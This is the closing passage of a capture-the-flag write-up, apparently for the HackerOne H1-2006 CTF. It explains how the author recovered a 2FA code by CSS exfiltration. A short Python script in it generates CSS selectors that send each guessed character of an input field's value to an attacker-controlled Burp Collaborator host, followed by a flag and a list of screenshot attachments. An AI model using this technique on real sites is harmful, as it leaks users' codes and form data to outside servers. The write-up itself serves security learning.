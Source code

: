 ```
Ok, so the final idea was to generate a CSS file with all conditions and codes, so if the server tried to contact with the Burp Collaborator, the input value would show up.

So coding a Python script like this

```
part1 ="input[name=code_{}][value="
part2 = """]{ 
 	background-image:url(https://collabdir/css/code_"""
part3 = """ );
	}"""

all = [i for i in string.lowercase] + [i for i in string.uppercase] + [str(i) for i in range(0,10)]
for i in range(1,8):
	for c in all:
		print(part1.format(str(i))+c+part2+str(i)+c+part3)

```

I generated all combination of characters that input could have. I pushed that file to my personal VPS. And I did the request, pointing to my VPS file and waiting some requests to my Burp Collaborator:

And the requests appeared!!

{F862734}

Sorting the puzzle pieces I got the pass and then:

{F862718}

CTF was solved!!!! 

##^FLAG^736c635d8842751b8aafa556154eb9f3$FLAG$

## Impact

## Conclusions and Acknowledgements

This CTF has been very hard, but very cool too! I learnt some new trick for my bounty, like CSS Exfiltration or HPP with some special parameters.

I want to give thanks to Adam Langley to discover me a world of posibilities to learn and get some good time.

## Attachments
- 1-_H1-2006.JPG
- 2-_Tweet_and_reply.JPG
- 3_-_Subdomain_discover.JPG
- 4-_main_page.JPG
- 5__api.JPG
- 6-_app.JPG
- 7_Software.JPG
- 8-software.JPG
- 9_dirsearch_enum_app.JPG
- 10_git_config.JPG
- 11_Github_file.JPG
- 12_logger.php.JPG
- 13_log_file.JPG
- 14_2FA_challenge_page.JPG
- 15_2FA_requests.JPG
- 17_api_page_dashboard.JPG
- 16_2FA_request2.JPG
- 18_button_request.JPG
```